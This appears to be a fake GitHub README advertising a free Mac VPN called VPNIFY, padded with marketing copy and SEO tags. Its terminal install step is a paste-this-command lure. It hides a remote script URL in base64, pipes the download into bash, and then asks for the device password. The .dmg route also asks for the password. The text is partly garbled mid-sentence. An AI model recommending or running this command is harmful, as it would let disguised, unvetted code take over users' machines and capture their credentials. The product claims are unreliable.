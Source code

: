 # VPNIFY — Free VPN Download For Mac OS 😎
![logo](https://img.informer.com/icons_mac/png/128/638/638800.png)


VPNIFY is a secure, user-friendly VPN solution for Mac OS, offering fast and reliable connections to protect your online privacy. Follow the instructions below to download and install VPNIFY for free on your Mac.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/vpnifymac)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install VPNIFY For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and drag the VPNIFY app from the installer window to your Applications folder.
3. Open a terminal and navigate to the Applications folder using `cd /Applications`.
4. Run the VPNIFY app by typing `./VPNIFY.app/Contents/MacOS/VPNIFY` and press "Return."
5. Enter your device password in the prompt (if you don’t have a password, leave it blank).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a Command in the Terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your Mac and paste the command, then press "Return."
3. Enter your device password and confirm the installation.

[![Terminal Installation Demo](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with VPNIFY

- 🛡️ **Enhanced Privacy**: VPNIFY encrypts your internet connection, keeping your data safe from prying eyes.
- 🌐 **Global Server Access**: Connect to servers in over 50 countries for unrestricted browsing.
- ⚡ **High-Speed Connections**: Enjoy fast, lag-free streaming and browsing with optimized servers.
- 🔒 **No-Logs Policy**: VPNIFY ensures your online activities are never tracked or stored.
- 📱 **User-Friendly Interface**: Intuitive design makes it easy to connect with a single click.
- 🕒 **24/7 Support**: Access round-the-clock customer support for any installation or usage queries.

## About VPNIFY

VPNIFY is a powerful VPN application designed specifically for Mac OS, delivering a seamless and secure browsing experience. With its robust encryption protocols, VPNIFY ensures your online activities remain private, whether you're browsing at home or on public Wi-Fi. By leveraging advanced technology, VPNIFY provides a free VPN download option that’s accessible to all Mac users, making it a top choice for those seeking a reliable VPN for Mac. The software is lightweight, ensuring it doesn’t slow down your device while offering premium features like high-speed connections and global server access.

One of VPNIFY’s standout features is its ability to bypass geo-restrictions, allowing users to access content from streaming platforms, social media, and websites worldwide. Whether you’re traveling or simply want to explore content from another region, VPNIFY’s global server network ensures smooth and unrestricted access. The free VPN for Mac is optimized for macOS, ensuring compatibility with the latest versions, including macOS Ventura and beyond. Its no-logs policy guarantees that your browsing history remains private, aligning with the growing demand for secure VPN solutions.

The installation process for VPNIFY is straightforward, whether you choose the .dmg file or the terminal command method. This makes it an ideal choice for both tech-savvy users and beginners looking for a free VPN download for Mac. The software’s intuitive interface allows you to connect to a server with a single彼此

System: single click, minimizing the need for complex configurations. VPNIFY also offers automatic updates to ensure you’re always running the latest version, providing a hassle-free experience for users seeking a secure VPN for Mac.

**Why Choose VPNIFY?**  
VPNIFY stands out as a top-tier VPN for Mac due to its blend of speed, security, and ease of use. Unlike many other free VPNs, VPNIFY offers premium features without compromising on performance. Its commitment to user privacy, high-speed servers, and compatibility with macOS make it a preferred choice for those searching for a free VPN for Mac. Whether you’re protecting your data on public Wi-Fi or accessing region-locked content, VPNIFY delivers a reliable and secure solution.

## 🖼 Preview

![VPNIFY Dashboard](https://vpnifyapp.com/images/vpnify-desktop3.png)  
*Clean and intuitive VPNIFY dashboard for easy server selection.*

![Server Selection](https://www.vpnfan.com/wp-content/uploads/2021/07/vpnify.jpg)  
*Choose from a wide range of global servers with VPNIFY.*


## 🔍 Tags

vpnify, VPNIFY download, VPNIFY free, VPNIFY mac, VPNIFY for mac, VPNIFY for mac os, VPNIFY free download, VPNIFY download free, free VPNIFY, VPNIFY software, download VPNIFY, download vpnify free, VPNIFY vpn mac
